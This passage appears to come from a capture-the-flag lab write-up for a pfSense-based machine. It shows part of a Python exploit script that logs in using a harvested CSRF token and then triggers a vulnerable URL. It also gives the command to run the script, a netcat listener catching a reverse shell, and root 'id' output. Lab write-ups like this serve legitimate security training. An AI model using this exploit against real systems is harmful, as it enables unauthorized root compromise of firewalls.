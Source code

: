 ```python
except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
            
```

After downloading we set up our listener and then run it with the following arguments.

```console
└──╼ [★]$ python3 sense.py --rhost 10.129.215.40 --lhost 10.10.14.41 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
Nice it hangs and we get a shell!

```console
└──╼ [★]$ nc -lnvp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.215.40.
Ncat: Connection from 10.129.215.40:21244.
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# 
```
And both flags super quick!
